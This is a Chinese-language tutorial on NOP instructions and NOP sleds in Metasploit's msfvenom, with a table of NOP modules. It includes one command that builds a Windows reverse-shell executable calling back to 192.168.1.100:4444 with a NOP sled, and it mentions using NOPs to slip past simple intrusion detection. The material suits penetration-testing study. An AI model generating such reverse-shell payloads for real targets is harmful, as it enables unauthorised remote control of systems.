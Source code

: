 在 Metasploit 框架中，`nops` 是指 "No Operation" 指令（NOPs）或 NOP sled。NOPs 是一种汇编指令，用于在目标处理器上执行 "不做任何操作"。它们通常用于填充缓冲区，以确保有效载荷代码在正确的位置执行。

### NOPs 的用途

1. **缓冲区溢出攻击**：在缓冲区溢出攻击中，攻击者通常需要填充缓冲区，使得有效载荷能够在目标地址正确执行。NOPs 可以用作填充物，增加有效载荷的执行成功率。
2. **NOP sled**：通过在有效载荷前放置一系列的 NOPs，攻击者可以增加攻击的容错性，使得程序执行时滑过这些 NOPs，最终到达有效载荷代码。这种技术被称为 NOP sled。
3. **避开检测**：某些情况下，NOPs 可以用来绕过简单的入侵检测系统（IDS），使得攻击代码不那么显眼。

### `msfvenom` 中的 NOPs

在 `msfvenom` 中，Nops 是用于生成包含 NOPs 的有效载荷。可以通过 `msfvenom -l nops` 列出可用的 NOP 模块。

### 使用 `msfvenom -l nops`

以下是使用 `msfvenom -l nops` 的示例，它会列出所有可用的 NOP 模块：

```sh
msfvenom -l nops
```

### 列表解释

- **Name**：NOP 模块的名称。
- **Rank**：模块的等级，表示其稳定性和适用性。
- **Description**：对 NOP 模块的简要描述。

### 示例

使用 `msfvenom` 生成包含 NOP sled 的有效载荷：

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -n 16 -f exe -o reverse_shell_with_nops.exe
```

参数解释：

- `-p`：指定有效载荷（payload）。
- `LHOST` 和 `LPORT`：指定监听的 IP 和端口。
- `-n`：指定 NOP sled 的长度，这里是 16。
- `-f`：指定输出格式，这里是 `exe`。
- `-o`：指定输出文件名。

### 总结

NOPs（No Operation 指令）在缓冲区溢出攻击中起到关键作用，主要用于填充和增加有效载荷的执行成功率。在 Metasploit 的 `msfvenom` 工具中，可以使用 `-l nops` 命令列出所有可用的 NOP 模块，并在生成有效载荷时添加 NOP sled 以提高攻击的容错性和成功率。



以下是翻译后的表格：

| 名称            | 描述                             |
| --------------- | -------------------------------- |
| aarch64/simple  | 简单的 NOP 生成器                |
| armle/simple    | 简单的 NOP 生成器                |
| cmd/generic     | 为命令载荷生成无害的填充         |
| mipsbe/better   | 更好的 NOP 生成器                |
| php/generic     | 为 PHP 脚本生成无害的填充        |
| ppc/simple      | 简单的 NOP 生成器                |
| sparc/random    | SPARC NOP 生成器                 |
| tty/generic     | 为 TTY 输入生成无害的填充        |
| x64/simple      | x64 单字节/多字节 NOP 指令生成器 |
| x86/opty2       | Opty2 多字节 NOP 生成器          |
| x86/single_byte | 单字节 NOP 生成器                |